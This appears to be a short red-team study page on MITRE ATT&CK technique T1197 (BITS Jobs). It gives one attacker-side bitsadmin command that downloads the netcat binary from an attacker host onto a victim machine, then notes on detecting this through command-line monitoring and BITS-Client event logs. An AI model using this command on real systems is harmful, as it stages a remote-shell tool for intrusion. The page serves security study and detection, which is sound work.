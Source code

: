 ```yaml
---
layout: post
title: "t1197 bits jobs"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1197-bits-jobs/
---
```


---
layout: post
title: "t1197 bits jobs"
date: 2024-06-18
categories: persistence
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1197-bits-jobs/
---

---
description: File upload to the compromised system.
---

# BITS Jobs

## Execution

{% code title="attacker@victim" %}
```c
bitsadmin /transfer myjob /download /priority high http://10.0.0.5/nc64.exe c:\temp\nc.exe
```
{% endcode %}

![](../../.gitbook/assets/bits-download.png)

## Observations

Commandline arguments monitoring can help discover bitsadmin usage:

![](../../.gitbook/assets/bits-cmdline.png)

`Application Logs > Microsoft > Windows > Bits-Client > Operational` shows logs related to jobs, which you may want to monitor as well. An example of one of the jobs:

![](../../.gitbook/assets/bits-operational-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1197" %}

@spotheplanet
